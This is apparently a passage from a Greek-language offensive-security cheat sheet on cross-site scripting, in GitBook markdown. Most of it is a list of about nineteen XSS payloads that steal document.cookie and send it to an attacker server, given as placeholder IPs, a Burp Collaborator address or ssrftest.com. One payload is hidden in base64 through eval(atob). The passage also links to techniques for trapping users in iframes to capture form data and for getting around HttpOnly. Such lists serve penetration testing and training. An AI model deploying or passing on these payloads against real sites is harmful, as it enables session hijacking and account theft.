 ```javascript
// It's also possible to execute JS code only with the chars: []`+!${}
```
## XSS κοινές επιθέσεις

### Πολλές επιθέσεις σε 1

{% content-ref url="steal-info-js.md" %}
[steal-info-js.md](steal-info-js.md)
{% endcontent-ref %}

### Παγίδα Iframe

Κάντε τον χρήστη να πλοηγηθεί στη σελίδα χωρίς να βγει από ένα iframe και κλέψτε τις ενέργειές του (συμπεριλαμβανομένων των πληροφοριών που αποστέλλονται σε φόρμες):

{% content-ref url="../iframe-traps.md" %}
[iframe-traps.md](../iframe-traps.md)
{% endcontent-ref %}

### Ανάκτηση Cookies
```javascript
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
{% hint style="info" %}
Δεν **θα μπορέσετε να αποκτήσετε πρόσβαση στα cookies από το JavaScript** αν η σημαία HTTPOnly είναι ρυθμισμένη στο cookie. Αλλά εδώ έχετε [μερικούς τρόπους για να παρακάμψετε αυτή την προστασία](../hacking-with-cookies/#httponly) αν είστε αρκετά τυχεροί.
{% endhint %}
